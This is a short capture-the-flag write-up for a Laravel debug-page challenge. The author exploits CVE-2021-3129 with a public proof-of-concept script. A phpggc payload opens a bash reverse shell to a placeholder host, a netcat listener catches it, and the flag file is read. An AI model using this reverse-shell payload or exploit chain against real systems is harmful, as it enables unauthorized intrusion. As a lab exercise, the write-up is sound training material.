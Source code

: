 # DaaS

Challenge text:
```
We suspect this server holds valuable information that would further benefit our cause, but we've hit a dead end with this debug page running on a known framework called Laravel. Surely we couldn't exploit this further.. right?
```

The website was running Laravel, and in the bottom right it displayed the version number; `Laravel v8.35.1`. Upon searching I found [CVE-2021-3129](https://nvd.nist.gov/vuln/detail/CVE-2021-3129), and also a [POC script](https://github.com/ambionics/laravel-exploits). I followed the instructions from the GitHub and ran
used php and phpgcc to generate a payload that would run `system("bash -c 'bash -i >& /dev/tcp/myip/myport 0>&1'")`. I ran netcat in listen mode, and executed the Python script from the POC, and gained a reverse shell.

Console 1:
```bash
$ py laravel-ignition-rce.py http://165.227.232.115:30920/ exploit.phar
```

Console 2:
```bash
$ nc -lvnp 1337
Listening on 0.0.0.0 1337
Connection received on 165.227.232.115 50866
bash: cannot set terminal process group (33): Inappropriate ioctl for device
bash: no job control in this shell
www@webcadaas-6838-694cf46668-9rshd:/www/public$ cat /f*
cat /f*
CHTB{wh3n_7h3_d3bu663r_7urn5_4641n57_7h3_d3bu6633}
```